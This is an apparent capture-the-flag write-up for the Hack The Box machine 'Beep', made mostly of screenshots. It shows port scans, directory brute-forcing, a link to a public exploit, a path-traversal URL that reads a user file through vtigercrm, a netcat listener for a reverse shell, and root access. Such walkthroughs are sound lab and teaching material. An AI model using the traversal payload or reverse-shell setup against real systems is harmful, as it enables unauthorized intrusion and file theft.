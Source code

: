 # ****10.10.10.3 - Beep****

```bash
rustscan -a 10.10.10.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a4ca043d-d5c1-4615-a383-7dce9bdd5571)

![image](https://github.com/lufffe/Writeups/assets/90646635/65708e4b-1ee5-4974-8023-a06c5f13bec1)

![image](https://github.com/lufffe/Writeups/assets/90646635/ebf1e642-c7d7-4b5a-9777-5ef589cf0e07)

![image](https://github.com/lufffe/Writeups/assets/90646635/3008bbc4-562c-42e1-b84c-95dddb5f0642)

```jsx
nmap -A -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/897e7238-ad67-4f67-ab93-dba6086b81aa)

```bash
gobuster dir -u [https://beep.htb](https://beep.htb/) -w directory-list-2.3-small.txt -t 100 --no-error -k
```
![image](https://github.com/lufffe/Writeups/assets/90646635/76730215-3369-48d9-86f4-271271a4ad2d)


https://10.10.10.7
![image](https://github.com/lufffe/Writeups/assets/90646635/135107e6-c658-456b-8d3f-a15291b16fad)

https://www.exploit-db.com/exploits/37637
![image](https://github.com/lufffe/Writeups/assets/90646635/e4542a46-172f-4725-aa92-b755bfcb31f4)

![image](https://github.com/lufffe/Writeups/assets/90646635/8f2e281e-5677-489a-9944-71f6be365160)

view-source:[https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt&module=Accounts&action](https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action)


Sorry! Attempt to access restricted file.

```bash
sudo netcat -lnvp 4455
```

![image](https://github.com/lufffe/Writeups/assets/90646635/c242711b-d8bf-47c1-9faa-182cd60b4725)

[root@beep ~]# id
uid=0(root) gid=0(root)

```bash
cat /root/root.txt
```

